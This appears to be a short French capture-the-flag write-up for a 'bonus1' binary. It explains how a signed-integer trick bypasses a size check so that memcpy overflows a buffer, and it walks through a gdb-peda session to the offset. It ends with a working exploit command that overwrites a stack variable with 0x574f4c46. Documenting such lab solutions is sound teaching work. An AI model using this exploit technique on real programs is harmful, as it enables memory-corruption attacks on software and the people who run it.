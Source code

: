 # Bonux 1 

- On voit que dans le code les bit sont decaler de deux pour calculer la taille
- Le premier bit d'un int sert a savoir si il est negatif ou positif
- Donc tout les nombres negatif seront converti en nombre positif
<pre>
[alarmv@alarm Ressources]$ gdb ./bonus1 
gdb-peda$ pattern create 75
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA'
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   <strong>0x08048478</strong> <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
gdb-peda$ b *0x08048478
Breakpoint 1 at 0x8048478
gdb-peda$ r -2147483600 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA'
gdb-peda$ x $esp+0x3c
<strong>0xffffd54c:     "AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA"</strong>
gdb-peda$ pattern offset AA0AAFA
AA0AAFA found at offset: <strong>40</strong>
</pre>
- Il faut donc ecrire 44 caractere dans memcpy se qui fait **101100** en binaire
- Avec `<< 2` il faut que le int soit egale a **10000000000000000000000000001011** se qui fait -2147483637
- Donc on peut executé la commande ci contre
```
./bonus1 -2147483637 $(python -c "print('A' * 40 +  '\x46\x4c\x4f\x57')")
```
